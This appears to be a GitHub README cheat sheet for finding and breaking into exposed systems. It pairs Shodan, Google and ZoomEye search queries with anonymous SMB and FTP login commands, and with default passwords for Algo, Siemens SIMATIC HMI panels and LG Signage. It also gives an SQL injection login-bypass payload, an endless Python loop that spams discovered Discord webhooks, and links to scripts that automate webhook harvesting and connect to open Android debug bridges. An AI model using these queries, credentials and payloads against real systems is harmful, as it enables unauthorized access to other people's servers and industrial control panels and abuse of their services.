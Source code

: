 # SMB server misconfiguration

### installing smbclient
Debian: `apt install samba`

Arch: `pacman -S smbclient`

### login in to misconfigurated server
`smbclient -N \\\\{address}\\Users`

### Shodan query
[`port:445 "Authentication: disabled" "Users"`](https://www.shodan.io/search?query=port%3A445+%22Authentication%3A+disabled%22+%22Users%22)

# Algo hardcoded password

### Login
Default password: _`algo`_

### Shodan query
[`http.favicon.hash:-1024590169`](https://www.shodan.io/search?query=http.favicon.hash%3A-1024590169)

# SIMATIC HMI_Panel default credentials

### Login
Default username: _`Administrator`_

Default password: _`100`_

### Google dork
[`intitle:”Miniweb Start Page”`](https://www.google.com/search?q=intitle%3A%E2%80%9DMiniweb+Start+Page%E2%80%9D)

# Admin-login panels vulnerable to SQLi
Payload: _`1'or'1'=1'`_

### Google dork
[`intitle:"Admin login" inurl:/admin/index.php`](https://www.google.com/search?q=intitle%3A%22Admin+login%22+inurl%3A%2Fadmin%2Findex.php)

# Find exposed discord webhooks

Simplest way to spam into a webhook in python:
```py
while True: __import__("requests").post("<webhook>", data={"content":"@here hey"})
```

### Zoomeye dork
[`"https://discord.com/api/webhooks/"`](https://www.zoomeye.org/searchResult?q=%22https%5C%3A%2F%2Fdiscord.com%2Fapi%2Fwebhooks%2F%22)

#### But... Can i automate this?
The answer is obviously yes, i made [this](https://github.com/komodoooo/discord-stuff/blob/main/src/zw.py) script.

# FTP servers with anonymous login allowed 
Username: _`anonymous`_

Password: _`guest`_

### Shodan query
[`port:21 "Login successful" "FTP server ready"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22+%22FTP+server+ready%22)

[`port:21 "Login successful"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22)
## Find exposed ftp servers on google
### Google dork
[`intitle:"index of" inurl:ftp`](https://www.google.com/search?q=intitle%3A%22index+of%22+inurl%3Aftp)

# LG Signage default credentials
### Login
Default password: _`00000000`_
### Zoomeye dork
[`iconhash:79487298 && title:"LG Signage"`](https://www.zoomeye.org/searchResult?q=iconhash%3A79487298%20title%3A%22LG%20Signage%22&t=all)

# Android debug bridge misconfiguration
### installing ADB
Debian: `apt install android-tools`
Arch: `pacman -S android-tools`

### Connect to ADB device
**Use [this bash script](https://github.com/komodoooo/Some-things/blob/main/adb/adb.sh)** or connect manually

### Shodan query
[`"Android debug bridge (ADB)" -Authentication`](https://www.shodan.io/search?query=%22Android+debug+bridge+%28ADB%29%22+-Authentication)
